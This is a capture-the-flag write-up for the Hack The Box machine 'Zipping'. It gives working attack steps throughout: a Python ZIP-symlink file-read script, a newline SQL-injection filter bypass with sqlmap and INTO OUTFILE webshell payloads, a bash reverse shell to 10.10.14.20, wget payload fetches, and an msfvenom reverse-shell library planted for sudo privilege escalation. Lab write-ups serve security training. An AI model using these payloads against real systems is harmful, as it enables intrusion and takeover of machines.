










This machine the difficulty is medium by hackthebox.The creator for this box machine is [xdann1](https://app.hackthebox.com/users/535069) . So now i would give your walkthrough for this machine.I hope you enjoy : )

# Enumeration


First of all check the open port using nmap 


`nmap -sC -sV -p- -T4 --min-rate=9326 --vv zipping.htb`


 


Only port 80 and 22 only open so nothing important here

 


 
 
 


 Lets check the website . Now look at this i tried upload shell from here using null byte but it is nothing because the creator was patched for null bytes . So lets try using [ZIP Symlink Vulnerability](https://effortlesssecurity.in/zip-symlink-vulnerability/) you can see here to exploit `ZIP SYMLINK`.The exploit work for read file and folder like lfi but using PDF file so to create malicious pdf using `ln` command

 `ln -s /etc/passwd etc.pdf` after that zip this file using zip
 `zip -r etc.zip etc.pdf` and upload the zip file at zipping upload .

 After you uploaded the zip file there would give link file pdf like this `http://zipping.htb/uploads/2734449af42ebfe74df5f6865e2529cd/etc.pdf`

 so now to read /etc/passwd using curl command

 `curl http://zipping.htb/uploads/2734449af42ebfe74df5f6865e2529cd/etc.pdf`
 
 

&nbsp;


 So now we need read source code file zipping to code analysis to exploit the vuln . To knows where the path domain read the apache config or nginx config . The website using apache . So i need recreate zip symlink again .

 `ln -s /etc/apache2/sites-available/000-default.conf apache.pdf`

 &nbsp;


 

&nbsp;


 The zipping path is `/var/www/html` and `/var/www/html/shop` lets try get the code . But i so lazy create files one by one to Read the file . So now im using the tools to read the file because its save time 

# Local File Inclusion


 ```
 #!/usr/bin/python3
import stat
import zipfile
import requests
import re
import os

url = "http://zipping.htb:80/upload.php"
base_url = "http://zipping.htb/"


def create_zip_with_symlink(output_zip_filename, link_source, link_target):
    zipInfo = zipfile.ZipInfo(link_source)
    zipInfo.create_system = 3
    unix_st_mode = (
        stat.S_IFLNK
        | stat.S_IRUSR
        | stat.S_IWUSR
        | stat.S_IXUSR
        | stat.S_IRGRP
        | stat.S_IWGRP
        | stat.S_IXGRP
        | stat.S_IROTH
        | stat.S_IWOTH
        | stat.S_IXOTH
    )
    zipInfo.external_attr = unix_st_mode << 16
    zipOut = zipfile.ZipFile(
        output_zip_filename, 'w', compression=zipfile.ZIP_DEFLATED)
    zipOut.writestr(zipInfo, link_target)
    zipOut.close()


while True:
    file = input("filename: ")
    create_zip_with_symlink('link.zip', 'link.pdf', file)
    with open('link.zip', 'rb') as f:
        file_content = f.read()

    files = [('zipFile', ('sym.zip', file_content, 'application/octet-stream'))]
    data = {"submit": ""}
    r = requests.post(url, data=data, files=files)

    link = re.search('uploads.*.pdf">', r.text).group(0).strip('">')
    print(requests.get(base_url + link).text)
```
&nbsp;


Now Look at /shop as you can see there is a parameter `page=product` and `id=3` looks like vuln Sqli and php filter . 

&nbsp;




&nbsp; 
&nbsp;


&nbsp;You can see here i read the source code /shop/index.php . Looking at index.php we identify a potential Local File Inclusion (LFI) within the page parameter; if
file_exists is true, then a .php extension is appended and the page is rendered. So the website will read `page=product` only without `page=product.php` . Now looking at product.php code 

```
<?php
// Check to make sure the id parameter is specified in the URL
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
        // Fetch the product from the database and return the result as an Array
        $product = $stmt->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if (!$product) {
            // Simple error to display if the id for the product doesn't exists (array is empty)
            exit('Product does not exist!');
        }
    }
} else {
    // Simple error to display if the id wasn't specified
    exit('No ID provided!');
}
?>

<?=template_header('Zipping | Product')?>

<div class="product content-wrapper">
    " width="500" height="500" alt="<?=$product['name']?>">
    <div>
        <h1 class="name"><?=$product['name']?></h1>
        <span class="price">
            &dollar;<?=$product['price']?>
            <?php if ($product['rrp'] > 0): ?>
            <span class="rrp">&dollar;<?=$product['rrp']?></span>
            <?php endif; ?>
        </span>
        <form action="index.php?page=cart" method="post">
            <input type="number" name="quantity" value="1" min="1" max="<?=$product['quantity']?>" placeholder="Quantity" required>
            <input type="hidden" name="product_id" value="<?=$product['id']?>">
            <input type="submit" value="Add To Cart">
        </form>
        <div class="description">
            <?=$product['desc']?>
        </div>
    </div>
</div>

<?=template_footer()?>
```


&nbsp;

Now you can see here in this code that have value of the id parameter.It can exploit `SQL injection`. Look at `preg_match` there have regex , that regex means that value of the parameter need to be start with any uppercase letter , lowercase letter or others symbols which has been entered into the code like special character . So now i try exploit Sqli with `newline` in beggining of the parameter. The `newline` is \n\r so i need url encode first to exploit sqli and this is a newline after url encoded `%0a%0d` 


- http://zipping.htb/shop/index.php?page=product&id=1 (1)
- http://zipping.htb/shop/index.php?page=product&id=test (2)
- http://zipping.htb/shop/index.php?page=product&id=%0a%0d3 (3)
- http://zipping.htb/shop/index.php?page=product&id=%0a%0dtest3 (4)

Look at number 4 i tried combine character and number would be error . 
The first two tests behave as we would expect- 1 passes the filter and test does not. When prefixing the payload with the URL-encoded characters, however, we see that both 3 and test3 pass the filter


# SQL Injection (Automation)

`sqlmap -u "http://zipping.htb/shop/index.php?page=product&id=1" --fresh-queries --prefix="%0A%0D'" --suffix="'1" -p id --dbms mysql --level 2 --risk 2 --sql-shell --time-sec 1 --batch`

&nbsp;
&nbsp;
&nbsp;


Sqli shell worked !

so now i just need upload mywebshell to the website
`select '<?php system(''ls''); ?>' INTO OUTFILE '/var/lib/mysql/shell.php%00';`
(to list file & folder)

`select '<?php system(''wget http://10.10.14.20/rcea.php''); ?>' INTO OUTFILE '/var/lib/mysql/shel.php%00';`
(upload webshell or RCE)

### rcea.php file
<?php system($_REQUEST["cmd"]); ?>

to upload the webshell go to `page=/var/lib/mysql/shel` without .php because already appended so you just see blank right?that mean its uploading so to access the webshell at /shop path because u can see the below



`http://zipping.htb/shop/rcea.php?cmd=ls` succeed rce so now we just revshell

so now create file bash for revshell

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.20/1337 0>&1
```



&nbsp;


# SQL Injection (Manual)


&nbsp;


Look at the time that means sqli time based so lets upload shell using into outfile
&nbsp;


 





i uploaded shell from sql injection and i got rce `%0A%0D';SELECT+'<%3fphp+system($_REQUEST["cmd"])%3b+%3f>'+INTO+OUTFILE+'/var/lib/mysql/sh.php'%3b+--+-0 ` here the payload url encoded


# Privilege Escalation

sudo -l 

```
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

`sudo /usr/bin/stock`
Enter Password:

so we need read the code using strings command

`strings /usr/bin/stock`



Here the password `St0ckM4nager`

now try login back and success but nothing here to exploit it so we need using strace command for debugging the code 

`strace /usr/bin/stock`

after that paste the password and enter then you will see at here "No such file"



```
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

the file was missed now create malicious code revshell using name libcounter.so to priv esc and get revshell . Using metasploit to create revshell

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.49 LPORT=1337 -f elf-so -o libcounter.so`

So now go this path `/home/rektsu/.config/` and upload your shell have been created by metasploit 


## Your Linux

`python3 -m http.server 80`

## SSH / Revhsell
`wget http://10.10.14.49/libcounter.so`

now run your netcat on your linux terminal and run `sudo /usr/bin/stock`

And will get access root from the system because you added malicious file in libcounter.so file at .config because the binary `/usr/bin/stock` compile with this file libcounter.so and that's why this happened 


